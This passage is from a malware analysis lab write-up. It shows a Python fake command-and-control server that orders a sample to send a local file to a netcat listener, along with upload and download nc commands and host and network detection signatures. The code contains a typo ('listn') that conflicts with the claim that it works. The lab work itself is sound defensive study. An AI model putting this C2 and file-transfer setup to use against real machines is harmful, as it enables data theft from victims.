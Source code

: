 ```py
import socket

sock = socket.create_server(("192.168.42.1", 80))
sock.listn(5)

while True:
  (client, address) = sock.accept()
  with client:
    print('Connected by ', address)
    while True:
      data = client.recv(1024)
      if not data:
        break
      print(data)
      print("Sending command...")
      client.sendall(b"`'`'`DOWNLOAD 15000 C:\\test.txt'`'`'\r\n\r\n")
      print("Command sent")
```

This may not be ideal Python socket code, but it works to test our hypotheses. We'll set up a netcat listener on port 15000 with `nc -l -p 15000 > output.txt` and create a text file on the malware host as the data to be downloaded.

Then we run the server and test the malware. Sure enough, the command is sent, and when we inspect output.txt it contains the contents of our `C:\test.txt` data file!

Upload works similarly, but in reverse: we can pipe a file to netcat with `nc -l -p 15000 < input.txt` and the file will be created on the malware host.

One of our hypotheses was incorrect: when tested, SLEEP's parameter turns out to be in seconds, not milliseconds. Everything else (even NOTHING) works as expected. It's worth noting that the malware will exit after a successful CMD, UPLOAD, or DOWNLOAD, and otherwise loop indefinitely.

* Host-based signatures
  * Services
    * `/.* Management Service/`
  * Registry Keys
    * `SOFTWARE\Microsoft \XPS\Configuration`
* Network-based signatures
  * Traffic
    * `/GET [a-zA-Z0-9]{4}/[a-zA-Z0-9]{4}\.[a-zA-Z0-9]{3} HTTP/1.0/`
    * The lack of a leading slash may help eliminate false positives, but this is not a very reliable signature.

## Lab 09-02

### Static Analysis

There are no strings of interest except one, `cmd`, suggesting any strings that are used are obfuscated somehow. The malware does not appear to be packed. There are imports for writing files, opening sockets, and creating processes.

### Dynamic Analysis
